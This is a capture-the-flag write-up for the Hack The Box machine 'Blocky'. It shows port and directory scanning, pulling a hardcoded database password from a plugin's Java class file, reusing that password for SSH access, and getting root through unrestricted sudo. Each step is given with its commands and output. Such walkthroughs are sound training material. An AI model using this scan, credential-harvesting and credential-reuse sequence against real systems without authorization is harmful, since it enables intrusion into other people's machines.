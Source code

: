 ```yaml
---
tags:
  - hack
  - linux
---
```


# HTB: [Blocky](https://app.hackthebox.com/machines/Blocky)

## Enumeration

```console
$ nmap -n -sCV -A -T4 -p1-65535 -v $t
[...]
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[...]
```

The target is running a Wordpress site:

![](_/htb-blocky-20231004-1.png)

Web content discovery via `ffuf`:

```console
$ ffuf -ic -v -w ~/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://blocky.htb/FUZZ
[...]
[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 146ms]
| URL | http://blocky.htb/
    * FUZZ: 

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 100ms]
| URL | http://blocky.htb/wiki
| --> | http://blocky.htb/wiki/
    * FUZZ: wiki

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 107ms]
| URL | http://blocky.htb/wp-content
| --> | http://blocky.htb/wp-content/
    * FUZZ: wp-content

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 98ms]
| URL | http://blocky.htb/plugins
| --> | http://blocky.htb/plugins/
    * FUZZ: plugins

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 102ms]
| URL | http://blocky.htb/wp-includes
| --> | http://blocky.htb/wp-includes/
    * FUZZ: wp-includes

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 104ms]
| URL | http://blocky.htb/javascript
| --> | http://blocky.htb/javascript/
    * FUZZ: javascript

[Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 103ms]
| URL | http://blocky.htb/wp-admin
| --> | http://blocky.htb/wp-admin/
    * FUZZ: wp-admin

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
| URL | http://blocky.htb/phpmyadmin
| --> | http://blocky.htb/phpmyadmin/
    * FUZZ: phpmyadmin

[Status: 200, Size: 52227, Words: 3306, Lines: 314, Duration: 145ms]
| URL | http://blocky.htb/
    * FUZZ: 

:: Progress: [87651/87651] :: Job [1/1] :: 141 req/sec :: Duration: [0:04:38] :: Errors: 0 ::
```

The `/plugins` directory is serving two files:

![](_/htb-blocky-20231004-2.png)

I download them to my machine and run `strings` on the Java class:

```console
$ strings BlockyCore.class 
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
[...]
```

`root`, `localhost`, and `8YsqfCTnvxAUeduzjNSXe22` are interesting.

I find a username `notch` via a Wordpress post:

![](_/htb-blocky-20231004-3.png)

## Exploitation

Trying the username and password credentials for `ssh` yields success:

```console
$ ssh notch@$t
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
[...]
notch@Blocky:~$ cat user.txt
fb7682[...]
```

## Privilege Escalation

The user has `root` privileges via `sudo`:

```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su -
root@Blocky:~# cat /root/root.txt
d90ffb[...]
```
